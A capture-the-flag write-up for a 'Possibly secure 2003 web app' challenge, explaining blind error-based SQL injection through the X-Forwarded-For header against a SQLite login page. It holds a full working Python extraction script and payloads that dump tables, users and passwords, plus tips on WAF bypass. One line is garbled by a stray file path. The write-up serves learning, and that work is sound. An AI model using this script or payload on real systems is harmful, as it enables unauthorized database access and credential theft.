





# Mārtiņa-CTF 2025

## Challenge: Possibly secure 2003 web app

## Category: (im)Possible Security

## Points: 871

## Table of Contents

- [Challenge Description](#challenge-description)
- [Solution Overview](#solution-overview)
- [Solution](#solution)
- [Solution Script](#solution-script)
- [Flag](#flag)

### Challenge Description

Hey! I started working at a new company, and accidentally broke their password distributer. Can you figure out how to recover it?

### Solution Overview

An abandoned 2003 social network with a simple login form protected by a WAF that bans suspicious IPs. Direct attacks on the login form triggered IP bans, but the `X-Forwarded-For` header was vulnerable to blind SQL injection. By crafting a reliable error-based oracle using SQLite's `ESCAPE ''` syntax, I enumerated database tables, columns, and users. The `users` table contained two accounts: `admin` (decoy) and `flag`. Extracting the `flag` user's password revealed the flag.

### Solution

When I first opened the challenge, I was greeted with what looked like an ancient social network login page—very minimalist, just username and password fields on `index.php`.



**First thought from the task description**: "Reported blind SQLi—we're definitely looking for SQL injection here."

#### Initial Recon: Attacking the Form

My natural first instinct was to try injecting directly into the login form. I started with classic payloads:

- Single quote: `'`
- Boolean-based: `' OR 1=1 --`
- Comment-based bypasses: `admin'--`

**Problem**: Nothing worked. The form seemed sanitized. Worse, if I sent anything too suspicious, the server would respond with an IP ban page and I'd have to restart the entire instance. This was incredibly annoying—each restart meant waiting for the instance to come back up.

I spent some time trying to find clever WAF bypasses, testing various encoding tricks and SQL syntax variations. Everything either got sanitized or triggered the ban.

#### The Breakthrough: X-Forwarded-For Header

After exhausting direct form attacks, I started thinking about other injection vectors. What if the application logs requests? What if it tracks IPs for the ban system?

**I decided to test the `X-Forwarded-For` header.**

I sent a simple request with `X-Forwarded-For: 1'` and compared it to a normal request.

**Bingo-l "/home/zeba/Projects/ctf-writeups/Mārtiņa-CTF-2025/web/possibly-secure-2003-webapp.md"* The response length changed:

- Normal request: ≈753 bytes
- With single quote: ≈712 bytes



This was the tell—the header was being interpolated into a SQL query without proper escaping! The single quote was causing a SQL syntax error, which changed the response.

#### Building the Oracle

Now I needed a way to reliably distinguish between TRUE and FALSE conditions. I couldn't just use boolean-based injection because I needed something that would cause an error **only when a condition is true**.

**The technique**: SQLite has a quirk where `LIKE 'a' ESCAPE ''` causes an error (empty escape character). I could use this in a `CASE` statement:

```
X-Forwarded-For: 0'||(CASE WHEN <condition> THEN ('a' LIKE 'a' ESCAPE '') ELSE 0 END)||'
```

How this works:

- If `<condition>` is TRUE → executes `'a' LIKE 'a' ESCAPE ''` → SQL error → shorter response (≤720 bytes)
- If `<condition>` is FALSE → returns 0 → no error → normal response (≈753 bytes)
- If I trigger the WAF → ban page (≈765 bytes)

I tested this with a simple true condition and confirmed it worked. Time to build the extraction script!

#### The Extraction Script

I wrote a Python script with two core functions:

```python
import requests, string

URL = "http://10.240.3.154/index.php"
TRUE_MAX = 720   # Response length threshold for TRUE condition

def probe(cond: str) -> bool:
    """Test if a SQL condition is true using error-based oracle"""
    payload = f"0'||(CASE WHEN {cond} THEN ('a' LIKE 'a' ESCAPE '') ELSE 0 END)||'"
    r = requests.post(URL,
        headers={"X-Forwarded-For": payload},
        data={"user": "a", "pass": "a"})
    return len(r.text) <= TRUE_MAX

def extract(sql, max_len=64, charset=string.printable):
    """Extract string data character by character"""
    out = []
    for pos in range(1, max_len+1):
        # Check if there's a character at this position
        if not probe(f"unicode(substr(({sql}),{pos},1))>0"):
            break
        # Brute force the character
        for ch in charset:
            if probe(f"unicode(substr(({sql}),{pos},1))={ord(ch)}"):
                out.append(ch)
                print(ch, end='', flush=True)  # Live progress
                break
    return "".join(out)
```

The beauty of this approach is that I could reuse the same script for everything—just by changing the SQL query passed to `extract()`.

#### Step 1: Enumerating Tables

First, I needed to know what tables existed in the database. In SQLite, you query `sqlite_master`:

```python
# Enumerate tables
for i in range(10):  # Try first 10 tables
    table = extract(f"SELECT name FROM sqlite_master WHERE type='table' ORDER BY name LIMIT 1 OFFSET {i}")
    if table:
        print(f"Table {i}: {table}")
```

**Results**:

- `badlogin` (aha! this is where banned IPs are stored)
- `sqlite_sequence`
- `users` (jackpot!)



#### Step 2: Enumerating Columns

Now I knew there was a `users` table. What columns does it have?

```python
# Enumerate columns in 'users' table
for i in range(10):
    col = extract(f"SELECT name FROM pragma_table_info('users') ORDER BY cid LIMIT 1 OFFSET {i}")
    if col:
        print(f"Column {i}: {col}")
```

**Results**:

- `id`
- `user`
- `pass`

Perfect! Exactly what I needed.



#### Step 3: Enumerating Users

Time to see what users exist:

```python
# Enumerate users
for i in range(10):
    username = extract(f"SELECT user FROM users ORDER BY id LIMIT 1 OFFSET {i}")
    if username:
        print(f"User {i}: {username}")
```

**Results**:

- `admin` (ID=1)
- `flag` (ID=2)

**That second username got my attention immediately.** A user literally named `flag`? That's almost certainly where the flag is!

#### Step 4: Extracting Passwords

First, I tried getting the admin password out of curiosity:

```python
admin_pass = extract("SELECT pass FROM users WHERE user='admin' LIMIT 1")
print(f"Admin password: {admin_pass}")
```

Result: `this will never match anyway`

I tried logging in with these credentials just to confirm—no luck. The password was probably hashed differently or it was a decoy.

**Now for the real prize—the flag user's password:**

```python
flag_pass = extract("SELECT pass FROM users WHERE user='flag' LIMIT 1")
print(f"Flag password: {flag_pass}")
```

As the script ran, character by character, I watched the flag materialize on my screen!



**Flag captured!**

### Solution Script

```python
import requests, string

URL = "http://10.240.3.154/index.php"
TRUE_MAX = 720

def probe(cond: str) -> bool:
    """Test if a SQL condition is true using error-based oracle"""
    payload = f"0'||(CASE WHEN {cond} THEN ('a' LIKE 'a' ESCAPE '') ELSE 0 END)||'"
    r = requests.post(URL,
        headers={"X-Forwarded-For": payload},
        data={"user": "a", "pass": "a"})
    return len(r.text) <= TRUE_MAX

def extract(sql, max_len=64, charset=string.printable):
    """Extract string data character by character"""
    out = []
    for pos in range(1, max_len+1):
        if not probe(f"unicode(substr(({sql}),{pos},1))>0"):
            break
        for ch in charset:
            if probe(f"unicode(substr(({sql}),{pos},1))={ord(ch)}"):
                out.append(ch)
                print(ch, end='', flush=True)
                break
    return "".join(out)

# Enumerate tables
print("[+] Enumerating tables...")
for i in range(10):
    table = extract(f"SELECT name FROM sqlite_master WHERE type='table' ORDER BY name LIMIT 1 OFFSET {i}")
    if table:
        print(f"\n[*] Table {i}: {table}")

# Enumerate columns in 'users' table
print("\n[+] Enumerating columns in 'users' table...")
for i in range(10):
    col = extract(f"SELECT name FROM pragma_table_info('users') ORDER BY cid LIMIT 1 OFFSET {i}")
    if col:
        print(f"\n[*] Column {i}: {col}")

# Enumerate users
print("\n[+] Enumerating users...")
for i in range(10):
    username = extract(f"SELECT user FROM users ORDER BY id LIMIT 1 OFFSET {i}")
    if username:
        print(f"\n[*] User {i}: {username}")

# Extract admin password (decoy)
print("\n[+] Extracting admin password...")
admin_pass = extract("SELECT pass FROM users WHERE user='admin' LIMIT 1")
print(f"\n[*] Admin password: {admin_pass}")

# Extract flag user password (the actual flag)
print("\n[+] Extracting flag password...")
flag_pass = extract("SELECT pass FROM users WHERE user='flag' LIMIT 1")
print(f"\n[*] Flag password: {flag_pass}")
print(f"\n[!] FLAG: {flag_pass}")
```

### Flag

**Flag**: `MCTF25{on3_y34r_b4_fb_but_n0_C1GAR}`

### Key Takeaways

This challenge demonstrates several important web security principles:

**1. Attack Surface Beyond the Obvious** - While the login form was well-protected, the application trusted user-controlled headers like `X-Forwarded-For`. Always validate and sanitize ANY user-controllable input, including HTTP headers used for logging or IP tracking.

**2. Error-Based SQL Injection** - When boolean-based blind SQLi doesn't work, error-based oracles can be powerful. The `LIKE 'a' ESCAPE ''` technique in SQLite is a clever way to trigger controlled errors that reveal information through response differences.

**3. WAF Bypass Through Indirect Vectors** - WAFs often focus on protecting obvious attack vectors (form inputs, URL parameters) but may overlook headers. When direct attacks fail, explore alternative injection points like:

- `X-Forwarded-For`, `X-Real-IP`, `X-Originating-IP`
- `User-Agent`, `Referer`
- Custom application headers

---

[← Back to Mārtiņa-CTF 2025](../README.md)
